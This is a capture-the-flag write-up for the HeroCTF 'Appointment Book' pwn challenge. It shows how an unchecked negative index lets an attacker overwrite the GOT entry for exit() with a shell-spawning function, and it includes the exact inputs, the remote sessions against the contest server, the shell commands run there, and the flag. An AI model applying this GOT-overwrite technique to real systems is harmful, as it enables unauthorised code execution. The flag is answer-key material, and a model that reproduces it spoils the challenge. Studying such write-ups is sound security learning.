

# Appointment Book

### Category

Pwn

### Description

Exploit this application to get the flag!

Format : Hero{flag}<br>
Author : SoEasY

### Files

- [appointment_book](appointment_book)

### Write Up

First of all, we can some informations about the binary:
```bash
$ appointment_book: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9e05c313cee3802bec4ff1310d46c687c03ee62f, for GNU/Linux 3.2.0, not stripped

$ checksec ./appointment_book
[*] '/home/soeasy/GitHub/HeroCTF_v5/Pwn/Appointment_Book/appointment_book'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

So we've got an x64 ELF with `no RELRO` (which mean the `.got` section is writable) and `no PIE` (wich a base address of 0x400000).

Let's execute it.
```bash
$ ./appointment_book
========== Welcome to your appointment book. ==========

[LOCAL TIME] 2023-05-13 20:01:21

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice: 2
[+] Enter the index of this appointment (0-7): 1
[+] Enter a date and time (YYYY-MM-DD HH:MM:SS): 2023-05-12 12:12:12
[+] Converted to UNIX timestamp using local timezone: 1683886332
[+] Enter an associated message (place, people, notes...): HeroCTF is coming

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice: 1

[+] List of appointments: 
- Appointment n°1:
	[NO APPOINTMENT]
- Appointment n°2:
	- Date: 2023-05-12 12:12:12
	- Message: HeroCTF is coming

- Appointment n°3:
	[NO APPOINTMENT]
- Appointment n°4:
	[NO APPOINTMENT]
- Appointment n°5:
	[NO APPOINTMENT]
- Appointment n°6:
	[NO APPOINTMENT]
- Appointment n°7:
	[NO APPOINTMENT]
- Appointment n°8:
	[NO APPOINTMENT]
```

Alright so be have visibly 8 appointments slots that we can initialize with a date and a message. Let's check it in IDA.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  const char *time_now_str; // rax
  int choice; // [rsp+4h] [rbp-Ch]
  time_t time_now; // [rsp+8h] [rbp-8h]

  memset(&appointments, 0, 0x80uLL);
  puts("========== Welcome to your appointment book. ==========");
  time_now = time(0LL);
  time_now_str = (const char *)timestamp_to_date(time_now);
  printf("\n[LOCAL TIME] %s\n", time_now_str);
  fflush(stdout);
  while ( 1 )
  {
    choice = menu();
    if ( choice == 3 )
    {
      puts("\n[+] Good bye!");
      fflush(stdout);
      exit(1);
    }
    if ( choice > 3 )
    {
LABEL_10:
      puts("\n[-] Unknwon choice\n");
      fflush(stdout);
    }
    else if ( choice == 1 )
    {
      list_appointments();
    }
    else
    {
      if ( choice != 2 )
        goto LABEL_10;
      create_appointment();
    }
  }
}
```

After reversing the `create_appointment()` function we can set an `appointment_t` structure like this.
```c
00000000 appointment_t   struc ; (sizeof=0x10, mappedto_9)
00000000 timestamp       dq ?                    ; time_t
00000008 message         dq ?                    ; (char*)
00000010 appointment_t   ends
```

And the function looks like this:
```c
unsigned __int64 create_appointment()
{
  __int64 date_timestamp; // rax
  int index; // [rsp+Ch] [rbp-24h] BYREF
  void *buffer_date; // [rsp+10h] [rbp-20h]
  char *buffer_notes; // [rsp+18h] [rbp-18h]
  appointment_t *appointment; // [rsp+20h] [rbp-10h]
  unsigned __int64 stack_canary; // [rsp+28h] [rbp-8h]

  stack_canary = __readfsqword(0x28u);

  buffer_date = malloc(0x20uLL);
  buffer_notes = (char *)malloc(0x40uLL);
  memset(buffer_date, 0, 0x20uLL);
  memset(buffer_notes, 0, 0x40uLL);

  do
  {
    printf("[+] Enter the index of this appointment (0-7): ");
    fflush(stdout);
    __isoc99_scanf("%d", &index);
    getchar();
  }
  while ( index > 7 );

  appointment = &appointments[index];

  printf("[+] Enter a date and time (YYYY-MM-DD HH:MM:SS): ");
  fflush(stdout);
  fgets((char *)buffer_date, 30, stdin);

  date_timestamp = date_to_timestamp(buffer_date);
  appointment->timestamp = date_timestamp;

  printf("[+] Converted to UNIX timestamp using local timezone: %ld\n", appointment->timestamp);
  printf("[+] Enter an associated message (place, people, notes...): ");
  fflush(stdout);
  fgets(buffer_notes, 62, stdin);

  appointment->message = buffer_notes;
  free(buffer_date);

  return stack_canary - __readfsqword(0x28u);
}
```

The appointments are structures stored in an array of struct called `appointments` which is in the `.bss` section.

We can see here that index entered by the user must be `<= 7` but the is no check for a negative index and the `index` int is signed: we can give a negative index where the program will write an `appointment_t` structure.

So we need to check what could be interesting to overwrite with a negative index: if we take a look at what is just before the `.bss` section we find the `.got` section!

The `exit()` function is a perfect target because the offset between the `appointments` list and the `exit()` entry in the GOT is disivible by the size of the appointment_t struct:
```py
>>> appointments = 0x4037A0
>>> exit = 0x403750
>>> (appointments - exit) / 16
5.0
```

With the index -5, our `appointment->timestamp` will be written to the `exit()` entry in the GOT. But what to write there? We can see in the GOT the the `system()` function is imported, let's check where it's used: in a function called `debug_remote()` that does a `system("/bin/sh")`.
```x86asm
.text:0x401336      endbr64
.text:0x40133A      push    rbp
.text:0x40133B      mov     rbp, rsp
.text:0x40133E      lea     rax, command    ; "/bin/sh"
.text:0x401345      mov     rdi, rax        ; command
.text:0x401348      call    _system
.text:0x40134D      nop
.text:0x40134E      pop     rbp
.text:0x40134F      retn
```

Perfect! this is our ret2win function and we will overwrite the GOT entry of `exit()` with the address `0x401336` to get a shell when calling exit. To do this, we need to know which date will give us a `timestamp=0x401336 (4199222)`. For this, we can use the site [unixtimestamp.com](https://www.unixtimestamp.com/?unixTimestampInput).



We can notive something interesting here, the resultat is not the same following your time zone (which seems legit). My local test is working fine:

```bash
$ ./appointment_book 
========== Welcome to your appointment book. ==========

[LOCAL TIME] 2023-05-13 20:29:38

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice: 2
[+] Enter the index of this appointment (0-7): -5
[+] Enter a date and time (YYYY-MM-DD HH:MM:SS): 1970-02-18 15:27:02                      
[+] Converted to UNIX timestamp using local timezone: 4199222
[+] Enter an associated message (place, people, notes...): don't care

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice: 3

[+] Good bye!
$ id
uid=1000(soeasy) gid=1000(soeasy) groupes=1000(soeasy),4(adm),24(cdrom),27(sudo),30(dip),44(video),46(plugdev),109(kvm),122(lpadmin),134(lxd),135(sambashare),140(libvirt),999(docker)
```

Then if I try in remote it won't work:

```bash
$ nc static-03.heroctf.fr 5000
========== Welcome to your appointment book. ==========

[LOCAL TIME] 2023-05-13 18:32:16

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice: 2
[+] Enter the index of this appointment (0-7): -5
[+] Enter a date and time (YYYY-MM-DD HH:MM:SS): 1970-02-18 15:27:02
[+] Converted to UNIX timestamp using local timezone: 4202822
[+] Enter an associated message (place, people, notes...): don't care

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice: 3

[+] Good bye!
id
^C
```

But we can see a difference here:
```
LOCAL:  [LOCAL TIME] 2023-05-13 20:29:38
REMOTE: [LOCAL TIME] 2023-05-13 18:32:16
```

We are not on the same timezone: for exmploiting in remote from France, we need to substract one hour for our local exploit.

```bash
$ nc static-03.heroctf.fr 5000
========== Welcome to your appointment book. ==========

[LOCAL TIME] 2023-05-13 18:38:47

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice: 2
[+] Enter the index of this appointment (0-7): -5
[+] Enter a date and time (YYYY-MM-DD HH:MM:SS): 1970-02-18 14:27:02
[+] Converted to UNIX timestamp using local timezone: 4199222
[+] Enter an associated message (place, people, notes...): DON'T CARE

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice: 3

[+] Good bye!
id
uid=1000(player) gid=1001(player) groups=1001(player),1000(ctf)
ls
appointment_book
entry.sh
flag.txt
cat flag.txt
Hero{Unch3ck3d_n3g4t1v3_1nd3x_1nt0_G0T_0v3wr1t3_g03s_brrrrrr}
```

And here we go!

### Flag

```
Hero{Unch3ck3d_n3g4t1v3_1nd3x_1nt0_G0T_0v3wr1t3_g03s_brrrrrr}
```
